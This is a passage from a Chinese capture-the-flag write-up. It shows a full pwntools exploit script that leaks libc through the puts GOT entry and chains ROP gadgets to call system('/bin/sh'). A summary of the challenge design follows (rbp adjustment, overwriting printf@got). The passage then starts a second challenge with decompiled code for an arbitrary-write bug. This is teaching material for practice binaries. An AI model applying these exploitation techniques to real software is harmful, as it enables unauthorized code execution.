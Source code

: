 ```python
ur64 = lambda data		: u64(data.rjust(8, b'\x00'))

main=0x4011D5
pop_rdi=0x00000000004012b3
pop_rbp=0x000000000040114d
lea_ret=0x00000000004011d3

ru("name?")
sn(p64(main)+ p64(main) + p64(main))
ru("s??")
sl(b"-24")

ru("name?")
sn(p64(pop_rdi) + p64(elf.got["puts"]) + p64(elf.plt["puts"]))
ru("s??")
sl(b"-40")
libc.address = l64() - libc.sym["puts"]
print(hex(libc.address))

ru("name?")
sn(p64(pop_rdi) + p64(libc.search('/bin/sh').next()) + p64(libc.sym['system']))
ru("s??")
# dbg()
sl(b"-40")

irt()

```
## 总结
这个题目只涉及了栈，没有溢出，只有人为构造的漏洞可以调整rbp，这考察了选手思维活跃性，想出不同的利用方法，当时做的时候没有想到如何去修改printf@got.plt，这里的方法很妙，巧妙的运用了调整rbp，将buf修改为printf@got.plt实现写入，之后爆破就不需要泄露地址了，要时刻注意汇编的细节。利用方式2首选，可以直接拿到shell，当时不知如何泄露libc，想来是没有彻底明白栈帧的嵌套顺序，及调用函数返回时栈帧的变化，导致没有看出来可以输入三个main来进行连续返回。
## 出题思路

1. 没有栈溢出，只开NX，通过`add rbp，rax`调整rbp的位置
2. 结合程序read实现修改printf@got.plt为onegadget
3. 结合程序read和调整rbp的位置，使得程序可以多次利用，put泄露libc，巧妙构造rop

# PWN -> reallNeedGoodLuck （栈任意地址写4字节）
## 题目分析
这个题目出题风格类似上一题，安全保护、环境一样，也是简单的栈利用，原理相同，ida查看伪代码：
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  _DWORD *v3; // [rsp+0h] [rbp-30h]
  int buf; // [rsp+Ch] [rbp-24h] BYREF
  char nptr[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  init();                        <-----里面有setvbuf------>
  puts("need");
  puts("good");
  read(0, &buf, 4uLL);          <-------输入4字节--------->
  puts("luck! ");
  read(0, nptr, 9uLL);          <-------输入9字节--------->
  v3 = (_DWORD *)atoi(nptr);
  *v3 = buf;                    <-------将buf写到ptr处----->
  exit(0);
```